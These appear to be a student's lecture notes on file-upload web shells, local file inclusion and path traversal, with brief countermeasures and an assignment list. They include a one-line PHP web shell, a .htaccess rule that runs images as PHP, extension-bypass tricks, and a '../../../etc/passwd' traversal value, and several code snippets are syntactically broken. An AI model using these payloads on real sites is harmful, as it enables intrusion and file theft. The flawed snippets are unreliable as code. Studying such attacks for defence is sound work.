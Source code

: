 # File Web Shell

## Part 1. Review
* File upload
* Web shell attack
```php
<?php system($_GET['c']); ?>
```
* Windows server : IIS web server
  - Uploading exe file = it operates on directly
  - Uploading php file = it is able to operate on web server if it know exact path.

## Part 2. Different Web Shell
* Image Web Shell
  - webshell.php.jpg => impossible
  - double extension
  - deceiving extension
  - null byte injection

* htaccess
  - AddType application/x-httpd-php .jpg

* Reverse Shell

* Database information
  - File Include = include, include_once, require
```php
<?php include('nav.php') ?>
```
* File include
  - web page = Depending on the parameter value, it shows different pages
  - ?lang=ko.php
```php
<?php include($_GET['lang'];  ?>
```
- it is possible to bring any random file.
- it can't see the source code!
- Local File Include Vulnerability

## Part 3. Web log
- access log = ../../opt/lampp/logs/access_log

* File upload countermeasure
  - file name obfuscation
  - hiding file path
  - Authentication vulnerability = when downloading to get access to the random path
  - Saving in the Database (BLOB / CLOB)
  - NAS = Network-attached storage (NAS) is a file-dedicated storage device that makes data continuously available for employees to collaborate effectively over a network

## Part 4. File download countermeasure
- File download vulnerability
```
download.php?fileName=test.txt
```
```php
<?php fileName = $_GET['fileName'];
download('/files// . $fileName); ?>
```
```
fileName = ../../../etc/passwd
```
- Download Recommendation files
- Linux = /etc/passwd
- Windows = /boot.ini , /winnt/win.ini

## Part 5. Assignment
1. Web Development
2. CTF
3. Web development: Blog
4. Report of vulnerability

